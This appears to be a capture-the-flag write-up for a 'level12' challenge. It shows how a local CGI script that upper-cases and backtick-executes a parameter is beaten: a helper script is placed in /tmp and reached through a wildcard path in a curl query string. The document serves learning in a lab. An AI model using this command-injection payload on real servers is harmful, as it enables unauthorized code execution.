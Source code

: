 # Research

level12.l uses CGI on localhost:4646, it seems to take 2 arguments. Argument x will be put in uppercase and will be executed thanks to the \`\` quotes. Argument y seems to be useless for our purpose.

We saw in a previous level that we can pass parameters to CGI. So let's try to pass getflag.

Problem: if we pass just getflag, the regex will turn it into GETFLAG and the command won't be run properly. We need to find a way of passing a command without it being transformed in uppercase. Maybe we can run a script instead of a command. 
Using wildcards will prevent the regex to turn /tmp/ into /TMP/ wich doesn't exist.

```
echo "getflag" > /tmp/GETFLAG
touch /tmp/CC
chmod 777 /tmp/GETFLAG
```
```
curl localhost:4646/?x="`/*/GETFLAG>/*/CC`"
```

This does not work, it launch getflag without the appropriate rights...

1h30 later with lot of different useless tries...
It was not the good quotes, and weird to do it like this, it is cleaner to do the > part into the script.
https://stackoverflow.com/questions/6697753/difference-between-single-and-double-quotes-in-bash
https://www.howtogeek.com/howto/29980/whats-the-difference-between-single-and-double-quotes-in-the-bash-shell/

# Solution

```
cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag

touch /tmp/flag
chmod 777 /tmp/GETFLAG

curl localhost:4646?x='`/*/GETFLAG`' 
```
Gives us the flag.

